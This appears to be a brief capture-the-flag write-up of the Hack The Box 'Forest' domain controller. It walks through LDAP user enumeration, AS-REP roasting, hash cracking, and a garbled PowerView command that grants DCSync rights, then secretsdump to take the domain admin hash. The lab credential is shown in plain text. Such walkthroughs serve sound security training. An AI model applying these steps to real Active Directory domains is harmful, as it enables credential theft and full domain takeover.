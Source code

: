 Started with a nmap scan
```
53 DNS
88 Kerberos
135
139
389 LDAP
445
636
3268 LDAP
3269
5985
```
Domain `htb.local` Hostname `FOREST` 
Testing some stuff out we have anonymouse LDAP bind and can get a list of users and then we can use `impacket-GetNPUsers` to request a kerb hash `impacket-getnpusers htb.local/ -request` and we got `svc-alfresco` we can use hashcat to crack it and we got the creds now `svc-alfresco:s3rvice` and this user has winrm access now we get bloodhound data and this user is apart of `account operators` so we can dacl edit and then DCSync to get admin hash first we need to import powerview and then run this command 
```
Add-DomainGroupMember -Identity 'Exchnage Windows Permissions' -Memebrs svc-alfresco; $username = "htb\svc-alfresco"; $password = "s3rvice"; $secstr = New-Object {$secstr.AppendChar($_)}; $cred = new-object -typename; Add-DomainObjectAcl -Credential $Cred -PrincipalIdentity 'svc-alfresco' -TargetIdentity 'HTB.LOCAL\Domain Admins' -Rights DCSync
```
now we can use secrets dump `impacket-secretsdump 'htb.local/svc-alfresco:s3rvice'@10.10.10.161` and now we have the admin hash and can winrm into the admin account 